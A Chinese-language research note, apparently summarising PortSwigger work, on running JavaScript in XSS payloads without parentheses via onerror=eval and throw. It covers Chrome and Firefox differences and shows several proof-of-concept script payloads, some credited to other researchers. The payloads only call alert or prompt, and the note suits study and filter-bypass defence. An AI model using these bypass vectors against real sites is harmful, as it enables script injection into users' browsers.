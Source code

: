 
我們可以用 `eval` 做為 `onerror` handler
- 在字串前加上一個 `=`，然後使 `'Uncaught'` 的字串成為一個變數並執行任意的 JavaScript

比如說：
```html
<script>{onerror=eval}throw'=alert\x281337\x29'</script>
```

發送給 `eval` 的字串是 `"Uncaught=alert(1337)"`
- Chrome 上，這生效
- 但 Firefox 上，exception 的 prefix 變成兩個字 `"uncaught exception"`
  - 這當然會導致 `eval` 出現語法錯誤
  

值得注意的是
- `onerror/throw` 的技巧在從 console 執行 throw 時不會起作用
- 因為 throw 在 console 執行時，結果會被發送到 console，而不是 exception handler

在 Firefox 中用 `Error` function 建立 exception 時，它不包含 ` "uncaught exception"` 的 prefix。而是只有字串 `"Error"`

```
throw new Error("My message")//Error: My message
```

這邊顯然不能 呼叫 `Error` function
- 因為它需要括號
- 但如果使用帶有 `Error` prototype 的 object，也許可以模仿這種行為
- 用 [Hackability Inspector](http://portswigger-labs.net/hackability/inspector/?input=new%20Error(%27blah%27)) 檢查 Error object，看看它有什麼屬性。我把所有的屬性都加到了 object 的字面上，就成功了！
- 我一個一個地刪除了一個屬性，讓它成為了一個新的 object！一個接一個地移除一個屬性，以找到所需的最小屬性集

```html
<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>
```


Firefox 上也能用 `fileName` property 做為第二個參數傳

```html
<script>{onerror=prompt}throw{lineNumber:1,columnNumber:1,fileName:'second argument',message:'first argument'}</script>
```


這些東西發在 Twitter 後，`@terjanq` 和 `@cgvwzq` 改進了一些很酷的 vectors
- `@terjanq` 刪除了所有的 string literals

```html
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>
```

`@cgvwzq` 連 throw statement 都成功拿掉了，用 type errors 送 string 到 exception handler

```html
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```


------------
